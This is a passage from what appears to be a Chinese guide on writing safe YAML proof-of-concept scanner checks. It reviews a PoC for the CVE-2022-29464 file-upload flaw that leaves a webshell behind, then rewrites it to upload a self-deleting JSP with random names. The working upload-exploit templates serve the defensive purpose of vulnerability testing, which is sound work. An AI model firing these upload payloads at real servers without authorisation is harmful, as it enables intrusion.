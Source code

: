 ```yaml
            cache: true
            method: GET
            path: /wenshell.jsp?f=1.txt&t=hello123123
        expression: response.status == 200 && response.body.bcontains(b"hello123123")
expression: r0() && r1()
detail:
    author: test
    links:
        - https://nvd.nist.gov/vuln/detail/CVE-2022-29464
```
通过上面这个POC我们可以看出来，主要有几个问题：

1. 上传了一个webshell并且没有进行删除
2. 文件上传名称没有随机化
3. 执行的命令是一个随机字符串
4. boundary未随机化

 所以我们根据上述的问题，对该POC进行修改：
```yaml
name: poc-yaml-test
manual: true
transport: http
set:
    filename: randomLowercase(7)
    rboundary: randomLowercase(8)
    s1: randomInt(100000, 200000)
    s2: randomInt(10000, 20000)
rules:
    r0:
        request:
            cache: true
            method: POST
            path: /fileupload
            headers:
                Content-Type: multipart/form-data; boundary=----WebKitFormBoundary{{rboundary}}
            body: "\
                ------WebKitFormBoundary{{rboundary}}\r\n\
                Content-Disposition: form-data; name=\"{{filename}}.jsp\";filename=\"{{filename}}.jsp\"\r\n\
                \r\n\
                <%out.print({{s1}} - {{s2}});new java.io.File(application.getRealPath(request.getServletPath())).delete();%>\r\n\
                ------WebKitFormBoundary{{rboundary}}--
                "
        expression: response.status == 200
    r1:
        request:
            cache: true
            method: GET
            path: /{{filename}}.jsp
        expression: response.status == 200 && response.body.bcontains(bytes(string(s1 - s2)))
expression: r0() && r1()
detail:
    author: test
    links:
        - https://nvd.nist.gov/vuln/detail/CVE-2022-29464
```
这样修改后，便变成了一个无害化的POC
### 随机性
PoC 中所涉及的关键变量或数据应该具有随机性，切勿使用固定的变量值生成 Payload，能够随机生成的尽量随机生成（如：上传文件的文件名，Alert 的字符串，MD5 值）
**文件上传：**
例如上面的例子，其中的文件名称便没有随机化，且不说webshell的问题，如果是一个正常的文件上传，在文件名称固定的情况下，就有可能出现几种情况：
